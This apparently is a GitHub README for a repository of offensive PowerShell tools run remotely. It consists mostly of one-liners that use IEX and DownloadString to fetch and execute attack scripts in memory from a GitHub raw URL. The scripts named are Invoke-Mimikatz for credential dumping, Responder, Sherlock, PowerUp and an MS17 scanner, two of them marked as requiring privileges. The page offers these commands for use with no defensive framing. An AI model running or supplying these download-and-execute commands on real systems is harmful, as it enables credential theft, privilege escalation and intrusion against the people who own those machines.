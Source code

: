 # RemoteTools

## These are configured to be run via powershell remotely.  
Run any of the following commands via the powershell terminal

### Credit to the original authors 

### Mimikatz 
#### Requires privs

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Invoke-Mimikatz.ps1')  

### Responder

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Responder.ps1')  

### Sherlock

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/Sherlock.ps1')

### Powerup

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/PowerUp.ps1')

### MS17 Scanner (Requires Powershell AD Module)
#### Requires privs

IEX(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/jdksec/RemoteTools/master/MS17.ps1')
